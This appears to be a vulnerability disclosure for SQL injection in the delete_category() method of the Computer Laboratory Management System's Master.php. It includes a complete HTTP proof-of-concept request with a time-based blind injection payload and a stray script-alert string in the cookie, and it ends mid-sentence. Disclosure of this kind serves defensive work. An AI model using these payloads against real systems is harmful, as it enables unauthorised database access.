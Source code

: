 #### There is sql injection in the delete_category() method of the /classes/Master.php file of the Computer Laboratory Management System.

**Vulnerability Verification**：

poc

```
POST /classes/Master.php?f=delete_category HTTP/1.1
Host: lms:98
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: http://lms:98
Connection: keep-alive
Referer: http://localhost:98/?XDEBUG_SESSION_START=14848
Cookie: Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; PHPSESSID=leagsbs030cq18dj30osfipt3t; XDEBUG_SESSION=14848
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

id='/**/or/**/(select(1)from(select(sleep(6)))x)#
```

Successful six-second delay.

![QQ20240830-200014](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-200014.png)

**code analysis**

![QQ20240830-194310](https://raw.githubusercontent.com/gaorenyusi/img/master/img/QQ20240830-194310.png)

Seeing that the id is spliced directly into the sql query without filtering, we can control the id value as we like.
Here's a direct time-blind

